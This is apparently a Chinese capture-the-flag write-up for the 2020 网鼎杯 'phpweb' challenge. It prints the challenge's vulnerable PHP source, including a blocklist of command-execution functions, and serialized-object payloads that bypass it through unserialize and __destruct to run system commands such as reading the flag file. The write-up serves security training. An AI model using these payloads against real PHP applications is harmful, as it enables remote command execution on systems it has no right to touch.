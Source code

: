 # [网鼎杯 2020 朱雀组]phpweb

## 知识点

`php反序列化`

## 解题

首页一直在不断请求，源码也没看到什么东西，抓包看下

![](./img/[网鼎杯 2020 朱雀组]phpweb-1.png)

发现了两个参数，猜测`func`为函数,`p`为参数(`param`),尝试使用`file_get_contents`读取文件

![](./img/[网鼎杯 2020 朱雀组]phpweb-2.png)

成功读取了`index.php`的源码

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

发现有`析构函数`，且`unserialize`没有禁用,`$p`没有过滤`disable_fun`，那么就可以反序列化`Test`方法来执行命令

`payload`

```php
<?php
    class Test {
        var $p = "ls";
        var $func = "system";
    }

    $a = new Test();
    echo serialize($a);
?>
```

![](./img/[网鼎杯 2020 朱雀组]phpweb-3.png)

`最终payload`

```php
<?php
    class Test {
        var $p = "cat /tmp/flagoefiu4r93";
        var $func = "system";
    }

    $a = new Test();
    echo serialize($a);
    ?>
```

![](./img/[网鼎杯 2020 朱雀组]phpweb-4.png)